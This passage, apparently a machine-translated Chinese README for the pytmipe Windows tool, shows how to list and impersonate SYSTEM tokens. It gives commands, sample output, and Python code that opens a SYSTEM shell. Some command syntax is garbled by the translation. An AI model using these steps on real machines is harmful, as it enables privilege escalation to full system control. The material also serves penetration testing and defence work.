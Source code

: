 *   **示例 3:模拟令牌**

您可以模拟选定的令牌。

第一步，根据您的过滤器获取所有令牌(*系统*令牌和当前线程可以模拟的令牌):

**python.exe tmipe . py printalltokens–filter { \ " sid \ ":\ " S-1-5-18 \ "，\"canimpersonate\":true}**

**输出:**

```
[...]
- PID: 2288
------------------------------
  - PID: 2288
  - type: Impersonation (2)
  - token: 2504
  - ihandle: 118
  - sid: S-1-5-18
  - accountname: {'Name': 'SYSTEM', 'Domain': 'NT AUTHORITY', 'type': 1}
  - intlvl: System
  - owner: S-1-5-18
  - issystem: True
  - elevationtype: Default (1)
  - iselevated: True
  - linkedtoken: None
  - implevel: Impersonate (2)
  - appcontainertoken: False
  [...]
  - primarysidgroup: S-1-5-18
  - isrestricted: False
  - hasrestricitions: True
  - Mandatory Policy: VALID_MASK
  - canimpersonate: True
[...]
```

前面的输出显示了位于 pid 2288 (ihandle 118)中的模拟令牌，它具有完整性级别 *system* 。可以使用以下命令模拟该特定令牌:

**python.exe tmipe . py imp token–PID 2288–I handle 118-vv**

前面的命令打开一个 cmd.exe 作为 *nt authority\system* 。

这也可以用*pyt pipe*库来完成。以下源代码模拟第一个可用的*系统*令牌，打印有效令牌并停止模拟:

```
from impersonate import Impersonate
from windef import TokenImpersonation

allTokens = imp.getTokensAccessibleFilter(targetPID=None,
                                          filter={'canimpersonate':True, 'sid':'S-1-5-18', 'type':TokenImpersonation},
                                          _useThreadMethod=False)
if allTokens == {} or allTokens==None:
    print("No one token found for impersonation")
else:
    pid = list(allTokens.keys())[0] #use the first token of the first pid returned in 'allTokens'
    firstIHandle = allTokens[pid][0]['ihandle']
    imp.printThisToken(allTokens, pid, firstIHandle)
    imp.impersonateThisToken(pid=pid, iHandle=firstIHandle)
    print("Current Effective token for current thread after impersonation:")
    imp.printCurrentThreadEffectiveToken(printFull=False, printLinked=False)
    imp.terminateImpersonation()
    print("Current Effective token for current thread (impersonation finished):")
    imp.printCurrentThreadEffectiveToken(printFull=False, printLinked=False)
```

[**Download**](https://github.com/quentinhardy/pytmipe)